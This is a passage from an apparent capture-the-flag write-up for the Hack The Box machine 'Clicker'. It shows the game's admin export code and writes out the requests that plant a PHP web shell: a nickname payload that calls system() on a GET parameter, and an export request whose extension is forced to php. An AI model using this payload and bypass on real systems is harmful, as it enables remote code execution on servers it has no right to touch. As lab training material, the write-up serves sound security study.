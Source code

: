At this point the new password that I inserted was "password".

Now, that I'm admin I can use this functionalities

```
// ONLY FOR THE ADMIN
function get_top_players($number) {
        global $pdo;
        $stmt = $pdo->query("SELECT nickname,clicks,level FROM players WHERE clicks >= " . $number);
        $result = $stmt->fetchAll(PDO::FETCH_ASSOC);
        return $result;
}
function get_current_player($player) {
    global $pdo;
    $stmt = $pdo->prepare("SELECT nickname, clicks, level FROM players WHERE username = :player");
    $stmt->bindParam(':player', $player, PDO::PARAM_STR);
    $stmt->execute();
    if ($stmt->rowCount() > 0) {
        $result = $stmt->fetch(PDO::FETCH_ASSOC);
        return $result;
    } else {
        return null; 
    }
}
```

This makes me see the top users. And I have the option to use 3 extensions html,txt and json. Then when I go to the route `http://clicker.htb/exports/file.txt` I'm able to see it.


The vulnerability at this point is, this code do not filter another extensions and I'am able to create a file with php extension. If I'am able to create a user with the nickname of a php command the website will interpret it as a code. We cant create a user with special characters, the website does not permits us to do it. But we can inject a nickname when we save the game.

First I save the game with a malicious nickname
```
GET /save_game.php?clicks=0&level=0&nickname=<%3fphp+system($_GET['cmd'])+%3f>
```

Then I intercept the petition to create a txt, html or json file and I put my php extension

```
POST /export.php HTTP/1.1
Host: clicker.htb
Content-Length: 25
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://clicker.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://clicker.htb/admin.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=8n7d13shlijhoesamnsvtp6ajb
Connection: close

threshold=1&extension=php
```
